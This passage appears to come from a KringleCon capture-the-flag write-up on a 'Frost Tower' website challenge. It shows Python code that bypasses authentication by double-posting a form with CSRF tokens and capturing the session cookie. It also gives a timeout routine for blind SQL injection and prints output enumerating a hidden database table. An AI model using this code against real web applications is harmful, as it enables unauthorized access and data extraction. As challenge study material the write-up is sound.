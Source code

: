 ```python
        r = HTTP_SESSION.post(contact_post_url, data=postdata)
        sys.stderr.write("First POST done, CSRF token '{}'\n".format(csrf))

        csrf = getCsrfToken (r)
        postdata["_csrf"] = csrf
        r = HTTP_SESSION.post(contact_post_url, data=postdata) # double to bypass
        sys.stderr.write("Second POST done, CSRF token '{}'\n".format(csrf))

        if existing in r.text:
            r = HTTP_SESSION.get(dashboard_get_url)
            if r.url == dashboard_get_url:
                sys.stderr.write("Authentication bypassed, connect.sid is '{}'\n".format(HTTP_SESSION.cookies['connect.sid']))
            else:
                sys.stderr.write("Authentication bypass FAILED\n")
```

I also implemented a timeout logic to the request so in case the response is not received within the expected `sleepTime` it is still considered a successful injection result:
```python
def sendRequest (baseUrl, sleepTime):
    response = None
    try:
        response = HTTP_SESSION.get(baseUrl, timeout=sleepTime)
        if response.url != baseUrl:
            bypassAuth ()
            response = sendRequest(baseUrl, sleepTime)
    except requests.exceptions.Timeout:
        sys.stderr.write ("Timed out, assuming valid blind\t")
        return sleepTime
    except Exception as e:
        # Resend and hope
        print "!!!!!!!!!!!!!!!!!!!!!!!!!!!!!"
        print "!!!!!! RESEND AND HOPE !!!!!!"
        print " ! Excpetion: {} !".format(e)
        print "!!!!!!!!!!!!!!!!!!!!!!!!!!!!!"
        bypassAuth ()
        response = sendRequest(baseUrl, sleepTime)
    return response
```

A first run shown the table `TODO` that was not present in the given [encontact_db.sql](frosttower-web/sql/encontact_db.sql):
```
┌──(thedead㉿thinkali)-[~/Desktop/repos/Kringlecon4/12) Frost Tower Website Checkup]
└─$ python2 frost_tower_SQLi.py 2>frost_tower_SQLi_stderr1.txt
#### Setup ###
Base URL                 : https://staging.jackfrosttower.com/detail/PAYLOAD
Base Query               : 1,QUERY_PAYLOAD
Sleep Time               : 0.1
#### Run ###
Table Schema encontact Table todo has 3 columns
Table Schema encontact Table todo column #0 has a 4 char long hex encoded name
Table Schema encontact Table todo column #0 has name id [hex 6964]
Table Schema encontact Table todo column id has type INT
Table Schema encontact Table todo column #1 has a 8 char long hex encoded name
Table Schema encontact Table todo column #1 has name note [hex 6e6f7465]
Table Schema encontact Table todo column note has type VARCHAR
Table Schema encontact Table todo column #2 has a 18 char long hex encoded name
Table Schema encontact Table todo column #2 has name completed [hex 636f6d706c65746564]
Table Schema encontact Table todo column completed has type TINYINT
Table Schema encontact Table todo Columns [{'columnName': 'id', 'columnType': 'INT', 'isPK': True}, {'columnName': 'note', 'columnType': 'VARCHAR', 'isPK': False}, {'columnName': 'completed', 'columnType': 'TINYINT', 'isPK': False}]
```